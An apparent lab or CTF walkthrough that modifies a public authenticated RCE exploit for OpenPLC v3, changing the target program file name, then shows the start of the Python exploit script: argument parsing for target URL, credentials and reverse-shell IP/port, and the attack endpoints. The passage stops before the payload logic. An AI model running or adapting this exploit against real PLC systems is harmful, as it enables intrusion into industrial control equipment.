 
When searching for any exploits that i might be able to use on openplc i found the following exploit [OpenPLC 3 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49803). This exploit was valid however the default configuration did now work. In the script below i modified line 34:

**From** 
```python 
compile_program = options.url + '/compile-program?file=681871.st' 
```

**To** 
```bash
compile_program = options.url + '/compile-program?file=blank_program.st' 

```

We need to do this because the program this openplc instance is running isn't the default **681871.st** but instead the **blank_program.st**

**Full code**
```python
# Exploit Title: OpenPLC 3 - Remote Code Execution (Authenticated)
# Date: 25/04/2021
# Exploit Author: Fellipe Oliveira
# Vendor Homepage: https://www.openplcproject.com/
# Software Link: https://github.com/thiagoralves/OpenPLC_v3
# Version: OpenPLC v3
# Tested on: Ubuntu 16.04,Debian 9,Debian 10 Buster

#/usr/bin/python3

import requests
import sys
import time
import optparse
import re

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://target-uri:8080)")
parser.add_option('-l', '--user', action="store", dest="user", help="User credential to login")
parser.add_option('-p', '--passw', action="store", dest="passw", help="Pass credential to login")
parser.add_option('-i', '--rip', action="store", dest="rip", help="IP for Reverse Connection")
parser.add_option('-r', '--rport', action="store", dest="rport", help="Port for Reverse Connection")

options, args = parser.parse_args()
if not options.url:
    print('[+] Remote Code Execution on OpenPLC_v3 WebServer')
    print('[+] Specify an url target')
    print("[+] Example usage: exploit.py -u http://target-uri:8080 -l admin -p admin -i 192.168.1.54 -r 4444")
    exit()

host = options.url
login = options.url + '/login' 
upload_program = options.url + '/programs'
compile_program = options.url + '/compile-program?file=blank_program.st' 
run_plc_server = options.url + '/start_plc'
user = options.user
password = options.passw
rev_ip = options.rip
rev_port = options.rport
x = requests.Session()

def auth():
```